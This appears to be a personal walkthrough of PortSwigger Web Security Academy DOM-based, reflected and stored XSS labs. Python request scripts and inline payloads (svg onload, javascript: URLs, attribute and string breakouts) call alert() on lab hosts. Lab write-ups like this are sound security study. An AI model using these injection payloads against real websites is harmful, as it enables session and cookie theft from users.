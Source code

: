 # Portswigger

## XSS

### [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

#### Lab: DOM XSS in `document.write` sink using source `location.search`

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL._

_To solve this lab, perform a_ [_cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting) _attack that calls the `alert` function_

```python
import requests

url = "https://0a1e0067044d34a8c2a44bb8000700ed.web-security-academy.net"

session = requests.Session()

params = {
    "search" : f'"><svg/onload=alert(1)>'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```

#### Lab: DOM XSS in `innerHTML` sink using source `location.search`

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`._

_To solve this lab, perform a_ [_cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting) _attack that calls the `alert` function._

```python
import requests

url = "https://0a9900f9047f2860c1167170009f00d1.web-security-academy.net/"

session = requests.Session()

params = {
    "search" : f'<svg/onload=alert(1)>'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```

#### Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`._

_To solve this lab, make the "back" link alert `document.cookie`._[\
](https://twitter.com/share?url=https%3a%2f%2fportswigger.net%2fweb-security%2fcross-site-scripting%2fdom-based%2flab-jquery-href-attribute-sink\&text=Lab%3a+DOM+XSS+in+jQuery+anchor+href+attribute+sink+using+location.search+source+%7c+Web+Security+Academy%0A)

```python
import requests

url = "https://0a1300e80334a707c1d5865600da009e.web-security-academy.net"

session = requests.Session()

params = {
    "returnPath" : f'javascript:alert(1)'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```

#### Lab: DOM XSS in jQuery selector sink using a hashchange event

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property._

_To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser._

![](<.gitbook/assets/image (2).png>)

#### Lab: Reflected XSS into attribute with angle brackets HTML-encoded

_This lab contains a_ [_reflected cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/reflected) _vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the `alert` function._

payload : `"onmouseover = "alert(1)`



#### Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded

_This lab contains a_ [_stored cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/stored) _vulnerability in the comment functionality. To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked._

`csrf=VGGKQEO1UGrIx1iIDCoW4lcZRxCdbphR&postId=7&comment=123&name=112312312312&email=1%40gmail.com&website=javascript:alert(1)`



#### Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

_This lab contains a_ [_reflected cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/reflected) _vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function._&#x20;

`payload : -alert(1)-`







